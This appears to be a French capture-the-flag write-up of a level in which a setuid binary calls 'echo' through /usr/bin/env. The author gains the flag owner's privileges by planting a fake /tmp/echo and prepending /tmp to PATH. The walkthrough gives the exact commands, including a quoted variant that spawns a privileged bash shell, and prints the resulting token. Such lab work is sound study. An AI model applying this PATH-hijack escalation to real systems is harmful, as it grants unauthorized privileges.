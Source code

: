 Je streamline ma procédure d'identification : 

```
$ id && pwd && ls -la
uid=2003(level03) gid=2003(level03) groups=2003(level03),100(users)
/home/user/level03
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```

J'observe un fichier `level03`. Je pars du principe pour le moment que je vais y trouver la solution.

```
$ cat level03
ELF44   ($!444  TTT��(((��hhhDDP�td44Q�tdR�td��/lib/ld-linux.so.2GNUGNUOX�;�Sy8n�n��KT{K �K��3LD= T)␦__gmon_start__libc.��.6_IO_stdin_usedsetresgidsetresuidsystemgetegidgeteuid__libc_start_mainGLIBC_2.0ii
...
```

Rien de concret avec `cat`.
Je tente de l’exécuter :

```
$ ./level03
Exploit me
```

Je tente d'identifier le type du fichier avec `file` :

```
$ file level03
level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```

Je demande à [ChatGPT](https://chat.openai.com/share/77b4f5ef-f1f6-4bc1-bb14-fd57ccdbc8e4) de me faire une synthèse des différentes informations que je peux soutirer du résultat de cette commande. Il m'indique :

```
setuid setgid: 
This indicates that the executable has both the setuid (set user ID upon execution) and setgid (set group ID upon execution) permissions set. When such an executable is run, it operates with the permissions of the file's owner and group, rather than the permissions of the user running the file. This can lead to security vulnerabilities if the executable has flaws, as it might allow a normal user to perform actions with the elevated privileges of the file’s owner or group.
```

Puis :

```
Given these characteristics, if you're interested in exploring how to exploit this file, you would typically start by examining it with tools designed for binary analysis and debugging, such as `gdb` (GNU Debugger), `objdump`, or `strings` to look for vulnerabilities such as buffer overflows, format string vulnerabilities, or incorrect handling of user input.
```

Je vais donc tenter de voir comment je peux exploiter ce fichier avec `strings` :

```
$ strings level03
...
/usr/bin/env echo Exploit me
...
```

J'observe cette ligne: `/usr/bin/env echo Exploit me`

Cela signifie que le programme `level03` appelle le binaire `echo` pour print `Exploit me`.

Comme vu plus tôt avec `ls -la` :

```
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

Le binaire `level03` est la propriété de `flag03`, et nous avons vu plus haut que le programme est exécuté avec `setuid` et `setgid` ce qui signifie que :

```
...
it operates with the permissions of the file's owner and group
...
```

Il faut donc que j'essaie de lancer la commande `getflag` au travers de ce binaire (puisque `flag03` à le droit de le faire). Etant donné que j'ai également besoin de voir le résultat, je devine que la ligne `echo` est un indice : 

C'est `echo` qu'il faut probablement exploiter, pour qu'il appelle `getflag`.

Je vais essayer de changer la partie `Exploit me` de :

```
$ strings level03
...
/usr/bin/env echo Exploit me
...
```

Qui se trouve dans le programme, pour que cette ligne appelle plutôt :

```
/usr/bin/env echo $(getflag)
```

---

Je ne trouve pas de solutions convaincante pour faire cette modification. En revanche, d'après cette discussion intitulée  [What is vulnerable about this C code?](https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code)

Je note que :

```
-> Rob Napier: `env` searches `PATH` to find `echo`
...
-> Black Mrx: well actually on the system function call you can mess with the `echo` command. for example if you execute the following code:

$ echo "/bin/bash" > /tmp/echo
$ chmod 777 /tmp/echo && export PATH=/tmp:$PATH

you will get a shell with the file owner permission
```

Je comprend donc d'où vient la vulnérabilité, ici :

```
$ strings level03
...
/usr/bin/env echo Exploit me
...
```

`/usr/bin/env` évalue l'environnement afin de trouver le binaire `echo`. Si je créé un faux binaire `echo` et que je l'ajoute au `PATH` (lors de l'exécution d'un binaire en bash, si le path du binaire n'est pas précisé, il est cherché dans `PATH`), au début de la variable `PATH`, alors ce sera mon `echo` qui sera appelé par le programme `level03`.

Suite aux conseils de `Black Mrx`, je tente de ré-écrire `echo` dans `/tmp` avec mon idée de solution plus haut :

```
$ echo $(getflag) > /tmp/echo
$ chmod +x /tmp/echo
$ export PATH=/tmp:$PATH
$ ./level03
/tmp/echo: 1: /tmp/echo: Syntax error: ")" unexpected
```

Je tente la même approche sans "$()" :

```
$ echo getflag > /tmp/echo
$ chmod +x /tmp/echo
$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```


 


